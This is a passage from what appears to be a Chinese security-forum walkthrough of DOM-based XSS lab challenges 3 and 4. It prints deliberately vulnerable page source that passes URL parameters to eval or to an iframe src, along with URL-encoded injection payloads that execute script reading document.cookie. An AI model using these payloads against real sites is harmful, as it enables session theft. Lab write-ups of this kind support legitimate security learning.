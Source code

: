 DOM型XSS3
--------

查看源代码

```html
<div class="card">
  
    <?
echo 'xxxxxx' ?>
  
  <s cript>
    var url = unescape(location.href);
    var allargs = url.split("?")[1];
    if (allargs != null && allargs.indexOf('&') > 0) {
      var arg = allargs.split('&');
      for (var i = 0; i < arg.length; i++) {
        var argx = arg[i].split('=')[1];
        e val('var a="' + argx + '";');
      }
    }
  </s cript>
</div>
```

不难看出，会将url每个参数中的值拼接到`var a="$param_value";`执行。  
尝试闭合进行代码注入  
`?asd="a lert(document.cookie);&`  
发现`"`被`unescape`转义掉了。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0aa21638ef20e7bf716d7445231c554ac2ac4501.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0aa21638ef20e7bf716d7445231c554ac2ac4501.png)  
将其进行url编码。  
`?asd=%22;a lert(document.cookie);//&`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c8ad8fc4e77b8ded9d325a121cfe84c3f8a5846.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c8ad8fc4e77b8ded9d325a121cfe84c3f8a5846.png)

DOM型XSS4
--------

查看源代码

```html
<div class="card">
  <i f rame src='http://www.f4ckweb.top/' id='if'></i f rame>
  <s cript>
    function test(test) {
      if (test.indexOf('J avas cript:')) {
        return ''
      } else {
        return unescape(test)
      }
    }
    var ifx = document.getElementById('if');
    if (location.href.indexOf('?') > 0) {
      ifx.src = test(location.href.split('?')[1].split('=')[1])
    }
  </s cript>
</div>
```
